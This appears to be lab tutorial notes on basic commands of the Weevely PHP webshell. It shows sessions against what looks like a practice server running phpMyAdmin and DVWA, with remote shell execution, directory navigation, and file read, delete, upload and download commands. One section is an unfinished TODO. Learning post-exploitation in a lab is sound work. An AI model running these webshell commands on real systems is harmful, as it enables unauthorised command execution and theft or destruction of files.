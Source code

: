 # 02 - Basic Commands

Search Tag(s): #weevely #command-and-control #webshell #interactive-shell

## Execute

Using `:shell_sh` to execute commands

```
www-data@172.28.128.8:/var/www/phpMyAdmin $ shell_sh -h
The remote script execution triggers an error 500, check script and payload integrity
usage: shell_sh [-h] [-stderr_redirection STDERR_REDIRECTION] [-vector {system,passthru,shell_exec,exec,popen,proc_open,python_eval,perl_system,pcntl}]
                command [command ...]

Execute shell commands.

positional arguments:
  command               Shell command

optional arguments:
  -h, --help            show this help message and exit
  -stderr_redirection STDERR_REDIRECTION
  -vector {system,passthru,shell_exec,exec,popen,proc_open,python_eval,perl_system,pcntl}
www-data@172.28.128.8:/var/www/phpMyAdmin $ shell_sh ls
The remote script execution triggers an error 500, check script and payload integrity
CREDITS
ChangeLog
Documentation.html
Documentation.txt
INSTALL
LICENSE
..[omitted]..
user_password.php
view_create.php
webapp.php
```

## Navigation

Using `:file_cd` to navigate the files

```
www-data@172.28.128.8:/var/www/phpMyAdmin $ file_cd ../dvwa/vulnerabilities
The remote script execution triggers an error 500, check script and payload integrity
```

## File Manipulation

TODO: Fill this info

```
www-data@172.28.128.8:/var/www/phpMyAdmin $
```

:file_read                    Read remote file from the remote filesystem.
:file_cp                      Copy single file.
:file_rm                      Remove remote file.
:file_edit                    Edit remote file on a local editor.

## Upload and Download

```
:file_upload                  Upload file to remote filesystem.
:file_upload2web              Upload file automatically to a web folder and get corresponding URL.
```

```
:file_download                Download file from remote filesystem.
:file_webdownload             Download an URL.
```